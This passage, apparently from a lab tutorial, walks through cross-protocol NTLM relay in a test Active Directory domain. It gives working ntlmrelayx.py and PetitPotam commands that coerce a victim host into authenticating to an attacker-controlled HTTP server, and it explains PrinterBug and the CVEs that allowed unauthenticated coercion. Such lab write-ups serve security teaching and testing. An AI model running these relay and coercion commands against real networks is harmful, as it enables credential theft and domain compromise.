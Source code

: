 Please note that even if the attacked users are not admin of the system, there could still be some overprivilege problems that an attacker could investigate and leverage, like for example a user could access some network share with confidential data. Lets keep this in mind for later attack 2A.

### Attack 2: Cross protocol NTLM Relay

If we try to relay the NTLM authentication for SMB to `ldap://10.0.0.100` (NTLM-DC) with: 
```
ntlmrelayx.py -t ldap://10.0.0.100 -smb2
```
When we try to connect to `\\10.0.0.7\` from victim, we get a pretty self-explanatory error on the ntlmrelayx.py console that informs us that :
```
[!] The client requested signing. Relaying to LDAP will not work! (This usually happens when relaying from SMB to LDAP)
```
We have 2 options to explore then: WebDAV or Mitm6
### Attack 2A: WebDAV
WebDAV (Web Distributed Authoring and Versioning) is an extension of HTTP that allows clients to perform remote web content authoring operations. By default WebDav service is installed and running on Windows servers but not on the workstations. 
For ease of this lab, the webclient service has been manually enabled on the victim PC with this command in an elevated powershell:
```
start-service webclient
```
Please note that if the webclient is installed but not running, there are some techniques that allow to enable the service, for example [placing a "Documents.searchConnector-ms” on a share](https://tradecraft.cafe/Windows-Search-And-WebDAV-Payloads/) (out of scope here).

For our next step, how can we force an authentication over HTTP? Please remember that one of the ways to have a successful relay to LDAP service is to "come from" HTTP protocol, of which WebDAV is an extension.

An attacker can try to coerce client authentication by using RPC calls with some techniques that started to be relevant in 2018. The first issue to become widely used was called “PrinterBug”: it is a “feature” within the Windows Print System Remote Protocol that allows a host to query another host, asking for an update on a print job.
It is an authenticated method (i.e., an attacker needs to already have domain credentials) for getting a server running the Print Spooler service to initiate an NTLMv2 authentication session (using its Machine Account credentials) with a server of the attacker's choosing. 

In 2021, the PetitPotam tool was released, utilizing a similar vulnerability in the service MS-EFSRPC (Encrypting File System Remote Protocol). Please note that the researchers also found two vulnerabilites (CVE-2021-36943 AND CVE-2022-26925) that allowed unauthenticated coercion. This meant that an attacker without any credentials could force a vulnerable server to connect to the relay server. To make things worse, Domain Controllers were vulnerable to the unauthenticated attack by default. As you can imagine, the un-authenticated version of the attack has been already patched, but still this kind of attack is quite relevant in the authenticated flavour.

What follows is an example usage; let me describe the input parameters:
- the username ("victim"),
- the domain
- the known password,
- the attacker-run http server to which initiate an NTLMv2 authentication session ("attacker@80/aaa") that will be relayed,
- the IP address of the victim that will be forced to connect to the previous resource.
```
python3 PetitPotam.py -u victim -d ntlmlab.local -p Qwerty123 attacker@80/aaa 10.0.0.2
```
Please see the attached screenshot with two terminal windows side-by-side:
- on the right you see the PetitPotam execution, where the victim is forced to authenticate with the attacker-controlled resource over HTTP;
- on the left the ntlmrelayx session where you see the incoming connection from the victim 10.0.0.2 which is then controlled (relayed) to the LDAP server 10.0.0.100.
